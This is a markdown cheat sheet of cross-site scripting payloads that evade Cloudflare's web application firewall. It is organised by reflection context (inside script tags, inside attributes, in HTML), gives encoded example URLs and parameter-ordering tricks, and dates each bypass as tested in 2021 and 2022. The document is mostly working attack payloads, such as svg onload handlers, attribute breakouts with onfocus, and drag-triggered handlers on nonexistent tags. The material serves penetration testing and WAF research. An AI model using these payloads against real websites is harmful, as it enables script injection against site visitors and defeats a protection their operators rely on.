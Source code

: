 # CloudFlare XSS bypasses in different contexts

### JS Context

For **JS** context, when multiple parameters are reflected inside **<script>** tag e.g:
```
<script>
something({"some/thing":{"key":[{"name":"PARAM2_REFLECTION1","age":"","country":"","address1":"PARAM1_REFLECTION2","id":"123"}]}});
</script>
```

Set value of parameter which is reflected first: `</script%20`

Set value of parameter which is reflected afterwards: `><svg/oni=on onload=confirm(2)>`

The parameter which is reflected first, should be placed at end of URL, like:

`https://example[.]com/some/endpoint?param1=%3E%3Csvg%2Foni%3Don%20onload%3Dconfirm(2)%3E&param2=</script%20`

If it is placed before like folllowing, Cloudflare WAF will trigger:

`https://example[.]com/some/endpoint?param2=</script%20&param1=%3E%3Csvg%2Foni%3Don%20onload%3Dconfirm(2)%3E`

Sample Response contents:
```
<script>
something({"some/thing":{"key":[{"name":"</script ","age":"","country":"","address1":"><svg/oni=on onload=confirm(2)>","id":"123"}]}});
</script>
```

### Attribute Context

For Attribute context use:
```
bbbbb" id="bbbbb" Only=1 tabindex=1 onfocus=alert(1) a
```
Sample usage would be: `http://example.com?parameter=bbbbb%22%20id%3D%22bbbbb%22%20Only%3D1%20tabindex%3D1%20onfocus%3Dalert(1)%20a#bbbbb`  

Or:
```
"><svg/oni=on onload=confirm(2)>
'><svg/oni=on onload=confirm(2)>
```

Following bypasses WAF when request verb is POST:
```
cccc" oni=on onclick=print() dddd
```

### HTML Context

* For HTML context use:

`<Svg Only=1 OnLoad=confirm(1)>` Credits for XSS bypass in HTML context: [Brute Logic](https://twitter.com/brutelogic/status/1495769940615442434)

`<svg/oni=on onload=confirm(2)>` Credits for XSS bypass in HTML context: [Troll_13](https://twitter.com/Troll_13/status/1353713311972552709)

* When `>` is present somewhere after our payload in response page:

`<svg oni=on onload=alert(1)//` e.g reflected as `<svg oni=on onload=alert(1)//</h2>` (Crafted on `February 01, 2022`)

* When user input is reflected twice and `>` is disallowed for valid existent tags and `>` is not present in response body:

`><svg oni=on onload=alert(document.domain)//` will e.g get reflected as `Found ><svg oni=on onload=alert(document.domain)//{"><svg oni=on onload=alert(document.domain)\/\/":null}` and XSS will trigger.

* When `>` is not present after our payload anywhere in response body and at the same time when `>` is not allowed as its allowed in previous payloads, inexistent tag can be provided for xss:

`<o oni=on ondrag=alert(1)>Drag Me` e.g reflected as `<o oni=on ondrag=alert(1)>Drag Me no left angle bracket present here` -> then highlight text and drag it to trigger XSS (Crafted on `February 01, 2022`)


---

Bypasses tested on: `August 26, 2021` and `February 01, 2022`
